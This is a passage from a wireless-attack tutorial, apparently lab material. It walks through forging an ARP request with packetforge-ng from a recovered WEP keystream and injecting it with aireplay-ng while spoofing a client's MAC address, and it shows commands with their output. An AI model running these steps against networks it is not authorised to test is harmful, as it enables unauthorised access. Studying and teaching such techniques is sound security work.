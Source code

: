 Once the attack is completed, we will have two files to work with to forge our ARP request.

```shell
ls

replay_dec-0805-221220.cap
replay_dec-0805-221220.xor

```

Now, analyze the decrypted packet to identify the source and destination IP addresses.

```shell
tcpdump -s 0 -n -e -r replay_dec-0805-221220.cap

reading from file replay_dec-0805-221220.cap, link-type IEEE802_11 (802.11), snapshot length 65535
22:12:20.091153 BSSID:c8:d1:4d:ea:21:a6 SA:7e:8d:fc:dd:d7:2c DA:c8:d1:4d:ea:21:a6 LLC, dsap SNAP (0xaa) Individual, ssap SNAP (0xaa) Command,
ctrl 0x03: oui Ethernet (0x000000), ethertype IPv4 (0x0800), length 60: 192.168.1.75.43748 > 192.168.1.1.443: Flags [S], seq 4053382319, win 6
4240, options [mss 1460,sackOK,TS val 4080146584 ecr 0,nop,wscale 7], length 0

```

After identifying the required IP addresses, we can forge an ARP request using `packetforge-ng`. In this command, we specify the access point's MAC address with `-a`, the station’s MAC address with `-h`, the access point’s IP address with `-k`, the station’s IP address with `-l`, the location and name of our PRGA file with `-y`, and finally, the output name for the forged ARP request capture file with `-w`.

```shell
packetforge-ng -0 -a C8:D1:4D:EA:21:A6 -h 7E:8D:FC:DD:D7:2C -k 192.168.1.1 -l 192.168.1.75 -y replay_dec-0805-221220.xor -w forgedarp.cap

Wrote packet to: forgedarp.cap

```

Once the forged packet is saved as `forgedarp.cap`, we can inject it into the target network to generate initialization vectors (IVs). One common way to do this is by using [Interactive Packet Replay](https://www.aircrack-ng.org/doku.php?id=interactive_packet_replay).

We do so by specifying the interactive packet replay mode with `-2`, the name and location of our forged packet with `-r`, the source MAC address to inject with `-h`, and our interface in monitor mode with `wlan0mon` as shown below.

```shell
aireplay-ng -2 -r forgedarp.cap -h 7E:8D:FC:DD:D7:2C wlan0mon

The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
        ifconfig wlan0mon hw ether 7E:8D:FC:DD:D7:2C

        Size: 68, FromDS: 0, ToDS: 1 (WEP)

              BSSID  =  C8:D1:4D:EA:21:A6
          Dest. MAC  =  FF:FF:FF:FF:FF:FF
         Source MAC  =  7E:8D:FC:DD:D7:2C

        0x0000:  0841 0201 d8d6 3deb 29d5 7e8d fcdd d72c  .A....=.).~....,
        0x0010:  ffff ffff ffff 8001 daa0 0a00 3cf2 9b22  ............<.."
        0x0020:  140f 1287 f637 35ff dc9f 557b b652 d3ae  .....75...U{.R..
        0x0030:  fa97 80e8 7f8f 9a5c 6472 ac6d 44ca 1556  ......\dr.mD..V
        0x0040:  e423 69ca                                .#i.

Use this packet ? y

Saving chosen packet in replay_src-0805-221358.cap
You should also start airodump-ng to capture replies.

```